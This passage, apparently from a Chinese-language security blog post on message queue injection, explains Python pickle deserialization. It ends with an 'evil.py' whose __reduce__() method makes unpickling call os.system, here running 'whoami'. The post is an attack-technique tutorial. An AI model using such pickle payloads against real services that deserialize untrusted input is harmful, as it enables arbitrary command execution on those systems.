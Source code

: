 ![]({{ site.url }}/public/img/article/2016-09-22-attacking-distributed-nodes-by-message-queue-injection/1.png)

通过截图可以看到序列化前和序列化后的实例是不同的（对象地址不同），并且通常反序列化时实例化一个类实例，当前的运行环境首先必须定义了该类型才能正常序列化，否则可能会遇到找不到正确类型无法进行反序列化的情况，例如将上诉过程分文两个文件 `serializer.py` 和 `unserializer.py`，前一个文件用于实例化 `MyObj` 类并将其序列化然后经 Base64 编码输出，而后一个文件用于接收一串字符串，将其 Base64 解码后进行反序列化：

```python
# serializer.py
import base64
import pickle
class MyObj(object):
    loa = 'hello my object'
print(base64.b64encode(pickle.dumps(MyObj())))
```

```python
# unserializer.py
import sys
import base64
import pickle
print(pickle.loads(base64.b64decode(sys.argv[1])))
```

就上面所说，在反序列化时如果环境中不存在反序列化类型的定义，因为 `unserializer.py` 中未定义 `MyObj` 类，则在对 `serializer.py` 输出结果进行反序列化时会失败报错，提示找不到 `MyObj`：

![]({{ site.url }}/public/img/article/2016-09-22-attacking-distributed-nodes-by-message-queue-injection/2.png)

#### 2. Trick 使得反序列化变得危险

看似反序列化并不能实例化任意对象（运行环境依赖），但有那么些 tricks 可以达到进行反序列化即可任意代码执行的效果。

如果一个类定义了 `__reduce__()` 函数，那么在对其实例进行反序列化的时候，`pickle` 会通过 `__reduce__()` 函数去寻找正确的重新类实例化过程。（`__reduce__()` 函数[详细文档参考](https://docs.python.org/2/library/pickle.html#object.__reduce__)）

例如这里我在 `MyObj` 类中定义 `__reduce__()` 函数：

```python
...
class MyObj(object):
    loa = 'hello my object'
    def __reduce__(self):
        return (str, ('replaced by __reduce__() method', ))
...
```

然后再执行上一节的程序过程，会直接得到输出：

![]({{ site.url }}/public/img/article/2016-09-22-attacking-distributed-nodes-by-message-queue-injection/3.png)

这里不再报错是因为，`MyObj` 在进行序列化的时候，将重新构建类的过程写进了序列化数据里，`pickle` 在进行反序列化的时候会遵循重建过程去执行相应操作，这里是使用内置的 `str` 函数去操作参数 `'replaced by __reduce__() method'` 并返回，所以成功反序列化并输出的字符串。

有了 `__reduce__()` 这个函数，就可以利用该特性在反序列化的时候直接执行任意代码了，如下示例代码：

```python
# evil.py
import os
import base64
import pickle
class CMD(object):
    def __reduce__(self):
        return (os.system, ('whoami', ))
print(base64.b64encode(pickle.dumps(CMD())))
```
